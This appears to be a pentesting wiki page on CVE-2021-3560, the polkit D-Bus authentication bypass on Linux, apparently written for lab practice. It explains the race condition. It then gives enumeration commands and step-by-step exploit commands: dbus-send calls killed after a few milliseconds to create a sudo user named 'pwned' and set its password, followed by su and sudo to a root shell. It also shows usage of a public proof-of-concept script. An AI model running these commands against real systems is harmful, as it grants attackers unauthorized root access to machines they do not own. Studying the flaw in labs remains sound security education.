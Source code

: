 ```yaml
---
description: CVE-2021-3560
---
```


# D-Bus Authentication Bypass

## Theory

The vulnerability can be boiled down to these steps:

1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.\

6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.

In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  - [TryHackMe](http://127.0.0.1:5000/s/hhJPQlmTdlPBQjXz6mN2/the-formal-stuff/requesting-time-off)

See the full vulnerability explain on the official [Kevin Backhouse article](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

## Practice

{% tabs %}
{% tab title="Enumeration" %}
Many of the most popular Linux distributions didn’t ship the vulnerable version until more recently. You may run Polkit exploit on the following targets:

* RHEL 8
* Fedora 21 (or later)
* Debian testing (“bullseye”)
* Ubuntu 20.04
* LTS ("Focal Fossa")

Others may also be vulnerables if you find that the installed polkit package is vulnerable. Affected versions are **0.113** (or later) for `rhel,centos,fedora` and **0.105-26** for `Debian/Ubuntu`

```bash
#Debian/Ubuntu
apt list --installed | grep policykit-1
dpkg -l | grep -i polkit|grep -i "0.105-26"

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit|grep -i '0.11[3-9]'
```

Additionally, This exploit works only on distributions that have installed `accountsservice` and `gnome-control-center`

```bash
#Debian/Ubuntu
dpkg -l  | grep -i 'accountsservice'
dpkg -l  | grep -i 'gnome-control-center'

#RHEL/CentOs/Fedora
rpm -qa  | grep -i 'accountsservice'
rpm -qa  | grep -i 'gnome-control-center'
```

&#x20;
{% endtab %}

{% tab title="Manual Exploit" %}
First, send a dbus message to create a new user

<pre class="language-bash"><code class="lang-bash"># string:pwned: The new user named "pwned".
# string:"Account Desc": The description of the new user.
# int32:1: sudo group
<strong>$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwned string:"Account Desc" int32:1 &#x26; sleep 0.005s; kill $!
</strong><strong>
</strong><strong>#Check if it worked
</strong>$ id pwned
uid=1000(pwned) gid=1000(pwned) groups=1000(pwned),27(sudo)
</code></pre>

Second, generate password and set it with a dbus message&#x20;

```bash
# Generate SHA512 password (-6)
openssl passwd -6 password123

#Dbus message
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'<password_hash>' string:'Ask the tester' & sleep 0.005s; kill $!
```

Third, we can login into this new account and spawn a privileged shell

```bash
#Switch
user$ su - pwned

#Spawn root shell
pwned$ sudo su root
```
{% endtab %}

{% tab title="Auto Exploit" %}
To automate this processus, we can use [this exploit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) made by Secnigma.

```bash
# Add user with creds secnigma:secnigmaftw
./poc.sh

# Add your own user
./poc.sh -u=MyUser -p=MyPassword
```

{% hint style="danger" %}
Do not run this script in graphical login
{% endhint %}
{% endtab %}
{% endtabs %}



## Ressource

{% embed url="https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/polkit-privilege-escalation/#cve-2021-3560" %}

{% embed url="https://tryhackme.com/room/polkit" %}
